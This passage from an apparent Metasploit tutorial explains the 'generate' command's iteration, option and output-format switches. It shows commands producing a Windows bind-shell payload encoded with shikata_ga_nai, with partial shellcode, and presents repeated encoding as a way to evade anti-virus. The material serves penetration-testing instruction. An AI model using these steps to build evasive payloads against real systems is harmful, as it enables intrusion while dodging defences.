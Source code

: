 ### Iterations \(-i\)

* To **evade anti-virus** and make payloads **less prone to detection**, use the **iteration** switch **-i** to specify how many encoding passes must be done before producing the final payload.
* The more iterations one does the **larger** our payload will be.

```bash
msf  payload(shell_bind_tcp) > generate -b '\x00' -i 2
# windows/shell_bind_tcp - 395 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xbd\xea\x95\xc9\x5b\xda\xcd\xd9\x74\x24\xf4\x5f\x31\xc9" +
"\xb1\x5d\x31\x6f\x12\x83\xc7\x04\x03\x85\x9b\x2b\xae\x80" +
"\x52\x72\x25\x16\x6f\x3d\x73\x9c\x0b\x38\x26\x11\xdd\xf4" +
...snip...
```

### Options \(-o\)

* Issue the **show options** command to see which options we can change for this payload.
* To change the default values, use the **-o** switch followed by the value we wish to change. The syntax is **VARIABLE=VALUE** separated by a **comma** between each option.

```bash
msf  payload(shell_bind_tcp) > show options

Module options (payload/windows/shell_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address

msf  payload(shell_bind_tcp) > generate -o LPORT=1234,EXITFUNC=seh -b '\x00' -e x86/shikata_ga_nai
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=1234, RHOST=, EXITFUNC=seh, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xd1\xd9\x74\x24\xf4\xbb\x93\x49\x9d\x3b\x5a\x29\xc9" +
"\xb1\x56\x83\xc2\x04\x31\x5a\x14\x03\x5a\x87\xab\x68\xc7" +
"\x4f\xa2\x93\x38\x8f\xd5\x1a\xdd\xbe\xc7\x79\x95\x92\xd7" +
...snip...
```

### Output Formats \(-t\)

* When generating payloads, the **default output format** given is ‘**ruby**’.
* To specify a different output format, use the **-t** switch followed by the format name.
